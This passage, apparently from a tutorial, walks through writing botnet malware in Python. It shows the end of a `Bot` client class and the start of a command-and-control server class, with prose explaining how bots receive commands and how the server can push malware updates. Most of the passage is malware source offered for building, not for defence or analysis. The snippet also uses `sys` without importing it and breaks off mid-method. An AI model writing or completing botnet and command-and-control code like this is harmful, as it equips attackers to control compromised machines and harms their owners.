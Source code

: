 ```python
            print(f"[*] Data sent: {data}")
        except Exception as e:
            print(f"[*] Data failed: {e}")
            sys.exit(1)

    def close(self):
        self.sock.close()
        print("[*] Connection closed")
```

Now let's breakdown all of what we've written above.

When we create a new instance of the `Bot` class, we pass in two arguments, `host` and `port`, which are used to connect to the command and control server.

You may notice that the `Bot` class is very similar to the `Botmaster` class. This is because the bot and the botmaster have similar functions, but the botmaster has more functions than the bot.

The methods `connect`, `receive_command`, `send_data`, and `close` are the same as the methods in the `Botmaster` class.

The method `receive_command` is used to receive commands from the botmaster. It uses the `socket` module to receive commands from the command and control server.

Now that we've created the bot, let's create the command and control server.

## Creating the Command and Control Server

The command and control server's minimal functions include the ability to receive commands from the botmaster and send information to them, however the command and control server can also update the malware on the bots.

To start this off, we'll create a file called `cnc_server.py` and create a class called `CnCServer` with the following functions:

```python
import socket
import json
import base64

class CnCServer:
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def start(self):
        try:
            self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.sock.bind((self.host, self.port))
            self.sock.listen(5)
            print(f"[*] Listening on {self.host}:{self.port}")
        except Exception as e:
            print(f"[*] Listening on {self.host}:{self.port} failed: {e}")
            sys.exit(1)

    def accept(self):
        try:
            self.client, self.addr = self.sock.accept()
            print(f"[*] Accepted connection from {self.addr[0]}:{self.addr[1]}")
        except Exception as e:
            print(f"[*] Accepting connection from {self.addr[0]}:{self.addr[1]} failed: {e}")
            sys.exit(1)

    def receive_command(self):
        try:
            command = self.client.recv(1024).decode()
            print(f"[*] Command received: {command}")
```